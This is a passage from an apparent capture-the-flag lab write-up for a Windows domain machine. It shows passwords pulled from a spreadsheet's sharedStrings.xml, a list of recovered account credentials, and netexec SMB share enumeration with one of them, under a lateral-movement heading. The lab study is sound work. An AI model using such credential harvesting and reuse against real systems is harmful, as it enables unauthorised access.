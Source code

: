 Within sharedStrings.xml, we can find user credentials:

```xml
<t xml:space="preserve">First Name</t>
</si>
<si>
<t xml:space="preserve">Last Name</t>
</si>
<si>
<t xml:space="preserve">Email</t>
</si>
<si>
<t xml:space="preserve">Username</t>
</si>
<si>
<t xml:space="preserve">Password</t>
</si>
<si>
<t xml:space="preserve">Angela</t>
</si>
<si>
<t xml:space="preserve">Martin</t>
</si>
<si>
<t xml:space="preserve">angela@sequel.htb</t>
</si>
<si>
<t xml:space="preserve">angela</t>
</si>
<si>
<t xml:space="preserve">0fwz7Q4mSpurIt99</t>
<...SNIP...>
```

A list of all credentials discovered:

```
sa:MSSQLP@ssw0rd!
kevin:Md9Wlq1E5bZnVDVo
oscar:86LxLBMgEWaKUnBG
angela:0fwz7Q4mSpurIt99
```
## Lateral Movement

### RCE via MSSQL account

The most notable from this list appear to be `oscar` as this is a valid user enumerated earlier on the box, and `sa` as this appears to be a MSSQL account.

We find that Oscar's credentials work, however he does not have access to any new content:

```
┌──(kali㉿kali)-[~/Documents/escape2/accounts]
└─$ netexec smb sequel.htb -u 'oscar' -p '86LxLBMgEWaKUnBG' --shares
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.51     445    DC01             [+] sequel.htb\oscar:86LxLBMgEWaKUnBG 
SMB         10.10.11.51     445    DC01             [*] Enumerated shares
SMB         10.10.11.51     445    DC01             Share           Permissions     Remark
SMB         10.10.11.51     445    DC01             -----           -----------     ------
SMB         10.10.11.51     445    DC01             Accounting Department READ            
SMB         10.10.11.51     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.51     445    DC01             C$                              Default share
SMB         10.10.11.51     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.51     445    DC01             NETLOGON        READ            Logon server share 
```